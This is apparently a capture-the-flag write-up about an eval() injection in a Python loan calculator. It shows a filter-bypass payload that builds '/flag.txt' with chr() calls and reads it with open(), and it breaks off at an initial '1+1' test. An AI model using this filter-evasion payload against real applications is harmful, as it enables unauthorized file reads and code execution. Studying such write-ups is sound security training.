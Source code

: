 ## Understanding the Vulnerability

The application uses Python's `eval()` function to calculate loan formulas. The `eval()` function is notoriously dangerous because it executes any Python expression passed to it. If user input isn't properly sanitized, it leads to Remote Code Execution (RCE).

### The Challenge

While we have an `eval()` injection point, we face several obstacles:
1. Cannot use `/` directly (blocks `/flag.txt`)
2. Cannot use common keywords like `os`, `cat`, `shell`
3. Cannot use standard encoding methods (hex, unicode, URL encoding)
4. Need to read the contents of `/flag.txt`

## Solution Strategy

Since direct paths and common encoding methods are blocked, we need to use **dynamic string construction**. Python's `chr()` function can build strings from ASCII values without triggering the filters.

### Step 1: Building Strings with chr()

Each character can be represented by its ASCII value:
- `/` = chr(47)
- `f` = chr(102)
- `l` = chr(108)
- `a` = chr(97)
- `g` = chr(103)
- `.` = chr(46)
- `t` = chr(116)
- `x` = chr(120)

Therefore, `/flag.txt` can be constructed as:
```python
chr(47)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)
```

### Step 2: Reading the File

Python's built-in `open()` function can read files. Our complete payload becomes:
```python
open(chr(47)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)).read()
```

## Exploitation Process

### 1. Initial Test
First, let's verify we have code execution:
```python
1+1
```
Expected output: `2`
